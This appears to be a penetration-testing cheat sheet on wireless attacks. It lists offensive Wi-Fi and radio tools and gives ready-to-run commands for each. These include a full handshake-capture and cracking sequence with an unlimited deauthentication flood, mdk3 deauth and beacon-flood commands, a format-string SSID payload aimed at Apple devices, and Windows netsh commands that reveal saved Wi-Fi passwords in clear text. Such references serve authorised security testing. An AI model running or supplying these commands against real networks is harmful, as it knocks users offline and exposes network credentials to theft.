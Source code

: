# Wireless Attacks

- [Resources](#resources)

## Table of Contents

- [Aircrack-ng](#aircrack-ng)
- [airodump-ng](#airodump-ng)
- [airmon-ng](#airmon-ng)
- [ALFA AWUS036ACH](#alfa-awus036ach)
- [Apple Wi-Fi Evil SSID](#apple-wi-fi-evil-ssid)
- [mdk3](#mdk3)
- [Microsoft Windows](#microsoft-windows)
- [Wi-Fi Example Attack](#wi-fi-example-attack)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| Aircrack-ng | WiFi security auditing tools suite | https://github.com/aircrack-ng/aircrack-ng |
| airgeddon | This is a multi-use bash script for Linux systems to audit wireless networks. | https://github.com/v1s1t0r1sh3r3/airgeddon |
| EAPHammer | EAPHammer is a toolkit for performing targeted evil twin attacks against WPA2-Enterprise networks. | https://github.com/s0lst1c3/eaphammer |
| Flipper | Playground (and dump) of stuff I make or modify for the Flipper Zero | https://github.com/UberGuidoZ/Flipper |
| flipperzero-firmware | Flipper Zero Code-Grabber Firmware | https://github.com/Eng1n33r/flipperzero-firmware |
| flipperzero-firmware-wPlugins | Flipper Zero FW [ROGUEMASTER] | https://github.com/RogueMaster/flipperzero-firmware-wPlugins |
| JackIt | JackIt - Exploit Code for Mousejack Resources | https://github.com/insecurityofthings/jackit |
| OneShot | Run WPS PIN attacks (Pixie Dust, online bruteforce, PIN prediction) without monitor mode with the wpa_supplicant | https://github.com/kimocoder/OneShot |
| Pwnagotchi | (⌐■_■) - Deep Reinforcement Learning instrumenting bettercap for WiFi pwning. | https://github.com/evilsocket/pwnagotchi |
| WEF | A fully offensive framework to the 802.11 networks and protocols with different types of attacks for WPA/WPA2 and WEP, automated hash cracking, bluetooth hacking and much more. | https://github.com/D3Ext/WEF |
| Wifite | This repo is a complete re-write of wifite, a Python script for auditing wireless networks. | https://github.com/derv82/wifite2 |

## Aircrack-ng

```console
$ tshark -F pcap -r <FILE>.pcapng -w <FILE>.pcap
$ aircrack-ng -w /usr/share/wordlists/rockyou.txt <FILE>.pcap
```

## airodump-ng

```console
$ sudo airodump-ng <INTERFACE>mon
```

## airmon-ng

```console
$ sudo airmon-ng check kill
$ sudo airmon-ng start <INTERFACE>
$ sudo airmon-ng stop <INTERFACE>
```

## ALFA AWUS036ACH

```console
$ sudo apt-get install realtek-rtl88xxau-dkms
```

## Apple Wi-Fi Evil SSID

```console
%p%s%s%s%s%n
```

## iw

```console
$ iwconfig
$ iw <INTERFACE> scan
```

## mdk3

> https://github.com/charlesxsh/mdk3-master

```console
$ sudo mdk3 <INTERFACE>mon d -c <CHANNEL_NUMBER>
$ sudo mdk3 <INTERFACE>mon d <BSSID>
$ sudo mdk3 <INTERFACE>mon b <BSSID>
```

## Microsoft Windows

### Wireless Profiles

#### List Profiles

```cmd
PS C:\> netsh wlan show profiles
```

#### Extract Passwords

```cmd
PS C:\> netsh wlan show profile name="<PROFILE>" key=clear
```

#### Export Profiles

```cmd
PS C:\> netsh wlan export profile name="<PROFILE>" folder=C:\temp
```

## Wi-Fi Example Attack

```console
$ sudo airmon-ng check kill
$ sudo airmon-ng start wlan0
$ sudo airodump-ng wlan0mon
$ sudo airodump-ng -w <FILE> -c <CHANNEL> --bssid <BSSID> wlan0mon
```

```console
$ sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon
```

```console
$ aircrack-ng <FILE>.cap -w /usr/share/wordlists/rockyou.txt
```

```console
$ sudo airmon-ng stop wlan0mon
```

## wpa_supplicant

### wpa_supplicant.conf

```console
$ echo 'ctrl_interface=DIR=/var/run/wpa_supplicant GROUP=netdev
update_config=1

network={
    ssid="<SSID>"
    psk="<PSK>"
}' > /etc/wpa_supplicant.conf
```

```console
$ wpa_supplicant -B -D wext -i <INTERFACE> -c /etc/wpa_supplicant.conf
```

```console
$ ip link set <INTERFACE> up
```

```console
$ dhclient -h
```
